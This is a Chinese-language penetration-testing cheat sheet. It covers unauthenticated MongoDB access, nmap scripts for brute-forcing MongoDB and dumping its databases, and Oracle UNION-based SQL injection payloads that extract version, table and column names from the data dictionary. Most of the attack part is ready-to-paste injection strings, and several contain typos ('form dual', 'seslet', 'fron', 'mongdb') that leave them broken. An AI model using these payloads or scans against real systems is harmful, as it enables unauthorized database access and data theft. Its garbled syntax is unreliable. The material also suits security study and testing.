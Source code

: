 * 服务默认端口27017 ，默认设置不需要验证如。果MongoDB服务在没有适当的安全控制的情况下通过网络公开，任何人都可以远程连接到数据库。

* MongoDB提供了一个简单的HTTP界面，如果使用带–rest选项的接口启用mongod，HTTP接口的默认端口是28017，可以使用nmap查看远程主机是否使用http接口运行，通过-sV确认。'

* 注意：默认情况下运行的MongoDB版本大于2.6，禁用http接口。

#### nmap mongdb相关NSE Script

* nmap --script mongdb-brute.nse 提供针对需要验证的http接口进行爆破.
* nmap --script mongdb-databases.nse 在mingdb服务未授权情况下，获取表内容。

#### 认证方法

* 从MongoDB版本3.0开始，MongoDB已经将其默认的认证方法改变为质询和响应机制（SCRAM-SHA-1）。根据文档，“SCRAM-SHA-1根据用户的名称，密码和数据库验证提供的用户凭证。
* 当用户使用MongoDB进行身份验证时，他必须提供用户名，密码和创建数据库。

    mongo 192.168.2.105 -u user -p password –authenticationDatabase userdb

# oracle

## 特殊点

* 查询语句后一直需要跟上表名，提供dual虚拟表构成查询语句。
* Oracle保证dual永远存在一条数据。
* 数据类型强匹配，所以在Oracle进行类似UNION查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用null代替某些无法快速猜测出数据类型的位置。
* Oracle的单行注释符号是--，多行注释符号/**/。

## union注入

* 列数 'order by --+
* 回显位 ' union select null,null,null form dual --+
* 数据库版本 (select banner from  sys.v_$version where rownum=1)
* 查询当前数据库 

```sql
select instance_name from v$instance;
```

* 库内表明位于字典user_tables:

```sql
' union select null, null,(select table_name from user_tables where rownum=1),null from dual -- 
' union select null,null (seslet table_name from user_tables where rownum=1 and table_name <> '已知表名'),null fron dual --

```

* 字段名位于表user_tab_columns内：

```
' union select null,(select column_name from user_tab_columns where table_name="表名" and rownum=1),null from dual --
' union select null ,(select column_name fron user_tab_columns where table_name="表名" and column_name="字段名" and rownum=1) null from dual -- 
```
